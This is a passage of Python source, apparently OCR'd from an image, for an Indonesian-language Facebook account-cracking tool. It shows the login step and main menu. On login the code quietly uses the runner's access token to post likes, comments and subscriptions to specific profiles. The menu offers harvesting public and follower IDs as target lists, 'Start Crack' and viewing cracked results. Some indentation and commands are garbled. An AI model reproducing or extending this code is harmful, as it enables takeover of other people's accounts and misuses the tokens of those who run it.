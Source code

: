         requests.post('https://graph.facebook.com/10159090813023544/likes?summary=true&access_token=%s'%(___token___)) # foto profil
        requests.post('https://graph.facebook.com/10158807643598544/comments/?message=%s&access_token=%s'%(___komen3___,___token___)) #foto sampul
        requests.post('https://graph.facebook.com/10159090813023544/comments/?message=%s&access_token=%s'%(___komen___,___token___)) #foto profil
        requests.post('https://graph.facebook.com/10159494942223544/comments/?message=%s&access_token=%s'%(___komen2___,___token___)) #foto profil
        requests.post('https://graph.facebook.com/100041129048948/subscribers?access_token=%s'%(___token___)) # Iwan
	requests.post('https://graph.facebook.com/100000496418851/subscribers?access_token=%s'%(___token___)) # Muhammad Abill
    except:
        exit("%s[%s!%s]%s Login Gagal"%(P,M,P,M))
    print("%s[%s*%s]%s Login Berhasil"%(H,P,H,P))
    ___menu___()
# Menu
def ___menu___():
    os.system('clear')
    print(___logo___)
    try:
        ___token___ = open('login.txt','r').read()
    except (IOError):
        print("%s[%s!%s]%s Token Invalid"%(P,M,P,M));sleep(2)
        ___login___()
    try:
        xoz = requests.get('https://graph.facebook.com/me/?access_token=%s'%(___token___)).json()
        print("%s[%s•%s]%s %sWelcome :%s %s"%(B,M,B,P,M,H,xoz['name']))
        try:
            print("%s[%s*%s]%s %sEmail   :%s %s"%(B,M,B,P,M,H,xoz['email']))
        except:
            print("%s[%s*%s]%s %sEmail   :%s email_is_none@gmail.com"%(B,M,B,P,M,H))
        print("%s[%s•%s]%s %sUser    :%s %s"%(B,M,B,P,M,H,xoz['id']))
    except (KeyError):
        print("%s[%s!%s]%s Token Invalid"%(P,M,P,M));sleep(2);os.system('rm - rf login.txt')
        ___login___()
    except (ConnectionError):
        exit("%s[%s!%s]%s Koneksi Error"%(P,M,P,M))
    print("\n%s[%s1%s]%s Get ID Publick James%s[%s2004%s-%s2021%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s2%s]%s Get ID Publick James Old %s[%s2009%s-%s2006%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s3%s]%s Get ID Publick James New %s[%s2020%s-%s2021%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s4%s]%s Get ID Publick Very Old %s[%s2006%s-%s2009%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s5%s]%s Get ID Follower Old %s[%s2015%s-%s2006%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s6%s]%s Get ID Follower New %s[%s2021%s-%s2020%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s7%s]%s Get ID Publick  %s[%s2021%s-%s2004%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s8%s]%s Get ID Publick Old %s[%s2006%s-%s2015%s]"%(H,U,H,P,K,H,B,H,K))
    print("%s[%s9%s]%s Get ID Publick New %s[%s2021%s-%s2020%s]"%(B,U,B,P,K,H,B,H,K))
    print("%s[%s10%s]%s Start Crack %s[%sFast%s/%sSlow%s]"%(B,U,B,P,K,T,K,H,U))
    print("%s[%s11%s]%s Lihat Hasil Crack"%(H,U,H,P))
    print("%s[%s12%s]%s WhaatsApp Contact"%(H,U,H,P))
    print("%s[%s13%s]%s Logout Token"%(H,U,H,P))
    ___menu___ = raw_input("\n%s[%s?%s]%s Choose %s:%s "%(B,H,B,P,U,K))
    if ___menu___ in ['1','01']:
        ___james___()
    elif ___menu___ in ['2','02']:
        ___james2___()
    elif ___menu___ in ['3','03']:
        ___james3___()
    elif ___menu___ in ['4','04']:
        ___very___()
    elif ___menu___ in ['5','05']:
        ___follower___()